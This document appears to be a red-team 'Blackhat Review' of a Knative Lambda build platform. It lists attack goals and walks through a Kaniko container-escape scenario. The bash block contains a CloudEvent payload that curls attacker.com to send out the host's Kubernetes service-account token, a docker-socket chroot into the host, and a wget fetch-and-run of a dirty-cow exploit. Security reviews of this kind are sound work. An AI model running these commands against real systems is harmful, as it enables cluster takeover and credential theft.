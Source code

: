 # 💀 Blackhat Review - Knative Lambda

## 👤 Reviewer Role
**Blackhat (Offensive Security Specialist)** - Focus on exploiting vulnerabilities, finding 0-days, breaking the system, and demonstrating real-world attack scenarios

> ⚠️ **WARNING**: This document contains offensive security techniques. Use ONLY in authorized testing environments.

---

## 🎯 Attack Objectives

### Primary Targets
1. **🎯 Container Escape** - Break out of container to host
2. **🎯 Privilege Escalation** - Get cluster-admin access
3. **🎯 Data Exfiltration** - Steal build source code and secrets
4. **🎯 Crypto Mining** - Deploy unauthorized workloads
5. **🎯 Supply Chain Attack** - Inject backdoors into builds
6. **🎯 Denial of Service** - Take down the platform
7. **🎯 Lateral Movement** - Compromise other services
8. **🎯 Persistence** - Maintain access after detection

---

## 💣 Attack Vectors

### 1. Container Escape & Host Compromise (P0)

#### Attack Scenario: Break Out of Build Container
```bash
# ATTACK: Kaniko build container escape
# The Kaniko builder runs as privileged to build containers
# Can we escape to the underlying node?

# Step 1: Get code execution in build
# Inject malicious source code in CloudEvent
POST /cloudevents
{
  "type": "build.started",
  "data": {
    "sourceCode": "console.log('pwned');\nrequire('child_process').exec('curl http://attacker.com/$(hostname)/$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)')"
  }
}

# Step 2: From inside Kaniko container
# Check if we're running privileged
cat /proc/self/status | grep CapEff

# Check for Docker socket mounting (JACKPOT!)
ls -la /var/run/docker.sock

# If docker socket mounted, we own the host
docker run -it -v /:/host alpine chroot /host /bin/bash

# Alternative: Exploit kernel vulnerabilities
# Download exploit
wget http://attacker.com/dirty-cow
chmod +x dirty-cow
./dirty-cow
```